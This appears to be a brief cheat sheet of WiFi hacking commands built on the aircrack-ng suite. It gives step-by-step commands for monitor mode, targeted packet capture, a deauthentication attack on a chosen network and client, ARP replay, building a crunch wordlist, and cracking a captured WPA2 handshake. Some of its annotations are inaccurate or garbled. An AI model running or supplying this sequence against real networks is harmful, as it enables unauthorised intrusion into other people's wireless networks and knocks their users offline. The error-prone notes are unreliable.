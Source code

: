 # Wifi_hacking Commands
iwconfig
[call airmon-ng wireless interface]

ifconfig wlan0 up/down
[change network]

airmon-ng check kill
[kill wifi network]

iwconfig wlan0 mode monitor
[monitor mode]

service NetworkManager restart
[start network back]

airodump-ng wlan0
[monitor packets]

airodump-ng --bssid (enter bssid) --channel (CH) --write (name file) wlan0
[specifiy a single network for sniffing]

airmon-ng start (network name)
[to turn to monitor mode]

airmon-ng stop()
[stop mon mode]

aireplay-ng --deauth (set timer) -a (target BSSID) -c (target MAC) wlan0
[deauth attack]

aireplay-ng --arpreplay -b (target MAC with WPS) -h (wlan MAC address) wlan0
[assocaite with a network of less data]

sudo apt install crunch
Install crunch

crunch 6 8 abc -o test.txt -t (e.g Q@@@@U)
[add guess to crunch wordlist]

aircrack-ng (.cap) -w test.txt
[crack WPA2 using wordlist]

sudo NetworkManager start
[restart Machine's wireless interface]

